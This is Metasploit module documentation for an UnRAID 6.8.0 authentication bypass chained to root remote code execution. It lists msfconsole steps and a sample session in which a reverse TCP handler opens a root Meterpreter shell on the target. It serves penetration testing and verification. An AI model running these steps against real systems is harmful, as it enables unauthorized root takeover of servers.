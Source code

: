 ## Vulnerable Application

This module has been tested on UnRAID 6.8.0 without any configuration except setting a root password.

### Description

This module exploits an authentication bypass vulnerability caused by an insecure whitelisting mechanism in `auth_request.php` and then
performs remote code execution as root by abusing the *extract* function used in the `template.php` file.

### Testing Environment

Setup [Unraid 6.8.0](https://s3.amazonaws.com/dnld.lime-technology.com/stable/unRAIDServer-6.8.0-x86_64.zip)
according to the [UnRAID Getting Started](https://wiki.unraid.net/UnRAID_6/Getting_Started) guide.

## Verification Steps

  1. Setup UnRAID 6.8.0
  2. Start `msfconsole`
  3. `use exploit/linux/http/unraid_eval`
  4. `set RHOST [UNRAID]`
  5. `check`
  6. `run`
  7. You should get a new *root* session

## Options

None.

## Scenarios

```
msf5 > use exploit/linux/http/unraid_eval
msf5 exploit(linux/http/unraid_eval) > set RHOSTS 10.10.0.173
RHOSTS => 10.10.0.173
msf5 exploit(linux/http/unraid_eval) > check
[*] 10.10.0.173:80 - The target appears to be vulnerable.
msf5 exploit(linux/http/unraid_eval) > run

[*] Started reverse TCP handler on 10.10.0.161:4444 
[*] Sending stage (38288 bytes) to 10.10.0.173
[*] Meterpreter session 1 opened (10.10.0.161:4444 -> 10.10.0.173:46894) at 2020-03-20 15:26:40 +0100

meterpreter > getuid
Server username: root (0)
```
